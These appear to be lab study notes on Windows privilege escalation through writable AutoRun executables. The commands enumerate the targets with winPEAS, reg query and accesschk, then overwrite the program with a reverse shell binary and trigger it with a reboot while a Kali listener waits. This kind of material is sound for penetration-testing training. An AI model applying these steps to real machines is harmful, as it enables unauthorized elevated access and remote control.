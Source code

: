1. Use winPEAS to check for writable AutoRun executables:

```batch - windows
.\winPEASx64.exe quiet applicationsinfo
```

2. Alternatively, we could manually enumerate the AutoRun executables:

```batch - windows
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and then use accesschk.exe to verify the permissions on each one:

```batch - windows
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```


3. >The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:

```batch - windows
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

4. Copy our reverse shell executable to overwrite the AutoRun executable:

[[1._Reverse Shells (WIN)#MSFVenom]]

```batch - windows
copy /Y C:\PrivEsc\reverse.exe "C:\Program files\AutorunProgram\program.exe"
```

5. Start a listener on Kali, and then restart the Windows VM to trigger the exploit. Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.

![[___.Misc Commands#Restart host]]
